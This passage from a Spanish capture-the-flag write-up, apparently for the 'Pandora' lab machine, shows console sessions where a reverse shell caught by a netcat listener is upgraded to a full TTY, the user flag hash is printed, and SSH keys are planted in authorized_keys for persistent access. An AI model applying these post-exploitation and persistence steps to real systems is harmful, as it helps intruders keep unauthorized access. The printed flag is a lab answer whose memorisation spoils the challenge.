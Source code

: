 Es conveniente realizar un tratamiento a esta shell para tener una tty completa:

```console
matt@pandora:/var/www/pandora/pandora_console/images$ script /dev/null -c bash
Script started, file is /dev/null
matt@pandora:/var/www/pandora/pandora_console/images$ ^Z
zsh: suspended  nc -nlvp 9999
p3ntest1ng:~$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
matt@pandora:/var/www/pandora/pandora_console/images$ export TERM=xterm
matt@pandora:/var/www/pandora/pandora_console/images$ export SHELL=bash
matt@pandora:/var/www/pandora/pandora_console/images$ stty rows 36 columns 172
matt@pandora:/var/www/pandora/pandora_console/images$ cd /home
matt@pandora:/home$ cd matt
matt@pandora:/home/matt$ ls
user.txt
matt@pandora:/home/matt$ cat user.txt
060462bb4a8c091745340959b3def569
```

## Escalada de Privilegios

Antes de nada vamos a generar un par de claves SSH para poder acceder como el usuario **`matt`** sin proporcionar contraseña.

```console
matt@pandora:/home/matt$ mkdir .ssh && cd !$
matt@pandora:/home/matt/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/matt/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:apb9roxhxj8rmdpFRA+NcD+alfDFtheZT14rxHgH8qk matt@pandora
The key's randomart image is:
+---[RSA 3072]----+
|      ..=o o+..o |
|       o.*.+=+=.o|
|        . B.o+.=o|
|       . + .o...o|
|        S  E ..  |
|     . =         |
|      Xoo        |
|     *+*..       |
|    ..o.==o      |
+----[SHA256]-----+
matt@pandora:/home/matt/.ssh$ cp id_rsa.pub authorized_keys
matt@pandora:/home/matt/.ssh$ chmod 600 authorized_keys
```
